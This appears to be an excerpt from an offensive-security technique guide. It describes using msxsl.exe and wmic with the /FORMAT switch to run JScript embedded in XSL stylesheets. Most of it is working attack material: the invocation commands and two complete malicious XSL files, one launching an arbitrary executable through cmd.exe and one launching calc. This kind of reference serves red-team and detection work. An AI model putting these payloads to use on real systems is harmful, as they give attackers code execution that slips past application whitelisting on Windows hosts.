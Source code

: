 - msxsl.exe is a Microsoft-developed command utility to process Extensible Stylesheet Language (XSL) files.
- It is possible to embed malicious JS/VBScript into XSL file
- msxsl.exe no longer installed by default on machines.

### 20.1.2	USAGE

```
msxsl.exe <DUMMY_XML_FILE> evil.xsl
```

### 20.1.3	SCRIPT (IMMERSIVELABS)

```
<?xml version="1.0"?>
-<xsl:stylesheet xmlns:user="http://mycompany.com/mynamespace" xmlns:msxsl="urn:schemas-microsoft-com:xslt" xmlns:xsl="http://www.w3.org/1999/XSL/Transform" version="1.0">

<msxsl:script language="JScript" implements-prefix="user">function xml(nodelist) { var r = new ActiveXObject("WScript.Shell").Run("cmd.exe /k C:\\Secret\\a.exe");return nodelist.nextNode().xml;} </msxsl:script>

-<xsl:template match="/">
<xsl:value-of select="user:xml(.)"/>
</xsl:template>
</xsl:stylesheet>
```

## 20.2	USING WMIC [18]

### 20.2.1	EXPLANATION

- Invoke any wmic command and specify /format pointing to the evil.xsl:

### 20.2.2	USAGE

```
wmic os get /FORMAT:"evil.xsl"
```

### 20.2.3	SCRIPT [18]

```
<?xml version='1.0'?>
<stylesheet
xmlns="http://www.w3.org/1999/XSL/Transform" xmlns:ms="urn:schemas-microsoft-com:xslt"
xmlns:user="placeholder"
version="1.0">
<output method="text"/>

<ms:script implements-prefix="user" language="JScript">
<![CDATA[
var r = new ActiveXObject("WScript.Shell").Run("calc");
]]> </ms:script>

</stylesheet>
```
